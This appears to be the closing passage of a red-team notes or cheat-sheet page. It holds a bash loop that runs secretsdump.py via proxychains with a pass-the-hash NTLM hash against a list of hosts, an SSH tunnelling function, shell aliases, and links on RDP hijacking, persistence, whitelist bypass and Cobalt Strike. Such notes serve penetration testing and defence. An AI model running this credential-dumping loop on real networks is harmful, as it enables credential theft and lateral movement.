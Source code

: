 ## BASH

BASH loop example

    for u in `cat hosts.txt`; do
    echo -n "[*] user: $u" && 
    proxychains python /usr/local/bin/secretsdump.py domain/username@$u -hashes aad3b435b51404eeaad3b435b51404ee:0e493911f561a425e7a905329f4454bf |tee user_brute.log
    done

BASH .bashrc Function Example

    function start_sshtunnel() {
    ssh -A -t -p22 -L 8800:localhost:8800 james@123.001.123 -t ssh -L 8800:localhost:80 james@124.125.123
    }

Quick BASH format .bash_profile (mod ipconfig > ifconfig for Linux)
  
    # .bash_profile

    PATH=$PATH:/home/james/

    export PATH

    alias ls='ls -G'
    alias grep='grep --color=auto'
    alias la='ls -AlahG'
    alias el='sudo $(history -p !!)'
    alias ll='ls -alF'
    alias l='ls -CF'
    alias lg='ls -AlahG |grep $1'
    alias netstati='lsof -P -i -n'

    export PS1="nn[$(if [[ $? == 0 ]]; then echo "[$GREEN]✓"; else echo "[$RED]✕"; fi)[

[1]: /threatexpress/img/pasties.png
[2]: https://www.twitter.com/joevest
[3]: https://www.twitter.com/andrewchiles
[4]: https://www.twitter.com/minis_io
[5]: https://canarytokens.org/generate#
[6]: http://blog.portswigger.net/2017/07/cracking-lens-targeting-https-hidden.html
[7]: https://medium.com/@networksecurity/rdp-hijacking-how-to-hijack-rds-and-remoteapp-sessions-transparently-to-move-through-an-da2a1e73a5f6
[8]: http://www.exploit-monday.com/2013/04/PersistenceWithPowerShell.html
[9]: https://github.com/subTee/ApplicationWhitelistBypassTechniques/blob/master/TheList.txt
[10]: http://clymb3r.wordpress.com/2013/04/06/reflective-dll-injection-with-powershell/
[11]: https://github.com/HarmJ0y/CheatSheets/blob/master/PowerUp.pdf
[12]: https://github.com/HarmJ0y/CheatSheets/blob/master/PowerView.pdf
[13]: https://gist.github.com/HarmJ0y/3328d954607d71362e3c
[14]: https://adsecurity.org/?p=2362
[15]: http://blog.cobaltstrike.com/2016/07/06/gettin-down-with-aggressor-script/
[16]: https://blog.cobaltstrike.com/2017/06/23/opsec-considerations-for-beacon-commands/#respond

  